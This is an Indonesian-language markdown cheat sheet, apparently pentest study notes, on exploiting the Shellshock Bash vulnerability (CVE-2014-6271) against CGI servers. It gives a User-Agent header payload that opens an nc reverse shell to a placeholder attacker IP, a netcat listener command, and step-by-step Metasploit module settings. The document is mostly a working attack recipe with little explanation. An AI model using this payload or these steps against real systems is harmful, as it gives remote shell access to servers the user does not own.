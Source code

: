 # Shellshock Exploitation

## CVE Terkait

Shellshock adalah kerentanan eksekusi perintah jarak jauh (RCE) pada Bash shell, yang umumnya dieksploitasi melalui header HTTP terhadap server yang menggunakan CGI (Common Gateway Interface).

CVE-2014-6271

## Eksploitasi Manual

Shellshock dapat dieksploitasi melalui permintaan HTTP, terutama dengan memodifikasi header seperti `User-Agent`.

Contoh payload:

```
User-Agent: () { :;}; /bin/bash -c 'nc <IP-kita> <PORT-kita> -e /bin/bash'
```

### Langkah-langkah:

1. **Buka listener terlebih dahulu** di mesin attacker:

```
nc -lvp <PORT>
```

2. **Kirim request** ke target CGI endpoint (misalnya `/cgi-bin/status`) menggunakan curl atau BurpSuite dengan `User-Agent` di atas.

### Penjelasan:

- `() { :;};` adalah **empty function** yang men-trigger kerentanan Bash.

- Perintah setelahnya (`/bin/bash -c ...`) akan langsung dieksekusi oleh shell yang rentan.

---

## Eksploitasi Menggunakan Metasploit

1. Cari modul yang relevan:

```
search shellshock
```

2. Gunakan modul:

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

3. Konfigurasi exploit:

```
show options

set RHOSTS <IP-target>

set TARGETURI <URI-target>  # Contoh: /cgi-bin/status

set LHOST <IP-attackermu>

set LPORT <PORT>
```

4. Jalankan exploit:

```
run
```

## 📚 Belajar

[CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)